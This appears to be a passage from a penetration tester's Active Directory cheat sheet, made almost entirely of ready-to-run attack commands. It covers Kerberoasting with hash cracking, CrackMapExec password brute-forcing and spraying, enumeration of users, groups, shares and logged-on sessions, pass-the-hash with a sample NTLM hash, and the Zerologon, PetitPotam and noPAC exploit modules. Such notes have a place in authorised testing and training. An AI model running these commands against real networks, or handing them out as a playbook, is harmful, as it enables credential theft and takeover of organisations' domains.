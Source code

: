 ```powershell
# find some special messages in description
Get-DomainUser -LDAPFilter "Description=*built*" | Select name,Description
```

Kerberoasting 

get user TGS ticket

```powershell
Get-DomainUser -Identity <AD account> | Get-DomainSPNTicket -Format Hashcat
```

```shell
targetedKerberoast.py -d <domain> -u <username> -p <password> --dc-ip <dc ip>
# john /tmp/hashes --wordlist=rockyou.txt
# hashcat -m 13100 --force -a 0 hashes rockyou.txt   
```

### :open_file_folder: [CrackMapExec](https://mpgn.gitbook.io/crackmapexec/)

[Pwn3d!](https://mpgn.gitbook.io/crackmapexec/news-2022/major-release-for-crackmapexec#ldap-getting-the-pwn3d-flag-lets-go-deeper-with-ldap):domain admin flag

```shell
# brute forcing, server may block brute-force attack
sudo crackmapexec <protocol> <target ip> -u <user_list.txt> -p <password_list.txt>
# testing user = password
sudo crackmapexec <protocol> <target ip> -u <user_list.txt> -p <user_list.txt> --no-bruteforce
# check password policy
sudo crackmapexec <protocol> <target ip> --pass-pol
# using existing credentials and users to find more credentials 
sudo crackmapexec <protocol> <target ip> -u /tmp/users.txt -p <password> --continue-on-success
# using low privilege user to enumerate more users
sudo crackmapexec <protocol> <target ip> -u <username> -p <password> --users
# using low privilege user to enumerate more groups
sudo crackmapexec <protocol> <target ip> -u <username> -p <password> --groups
# enumerate logged users on multiple servers
sudo crackmapexec <protocol> <target ip(s)> -u <username> -p <password> --loggedon-users
# enumerate shares on multiple servers
sudo crackmapexec <protocol> <target ip(s)> -u <username> -p <password> --shares
# list readable share files
sudo crackmapexec <protocol> <target ip(s)> -u <username> -p <password> -M spider_plus
# bruteforcing the RID
sudo crackmapexec <protocol> <target ip(s)> -u <username> -p <password> --rid-brute
# using NTLM hash (NTDS.dit) to check credentials
# e.g., Administrator:500:aad3b435b51404eeaad3b435b51404ee:a8a3b1fee7718533175de682804c417a:::
sudo crackmapexec smb <target ip(s)> -u <username> -H 'LM:NT'
# sudo crackmapexec smb test.local -u Administrator -H 'aad3b435b51404eeaad3b435b51404ee:a8a3b1fee7718533175de682804c417a'
sudo crackmapexec smb <target ip(s)> -u <username> -H 'NTHASH'
# sudo crackmapexec smb test.local -u Administrator -H 'a8a3b1fee7718533175de682804c417a'

# anonymous access
sudo crackmapexec smb <target ip> -u 'anonymous' -p '' --shares   

# Zerologon
crackmapexec smb <target ip> -u <username> -p <password> -M zerologon
# PetitPotam
crackmapexec smb <target ip> -u <username> -p <password> -M petitpotam
# noPAC
crackmapexec smb <target ip> -u <username> -p <password> -M nopac
```
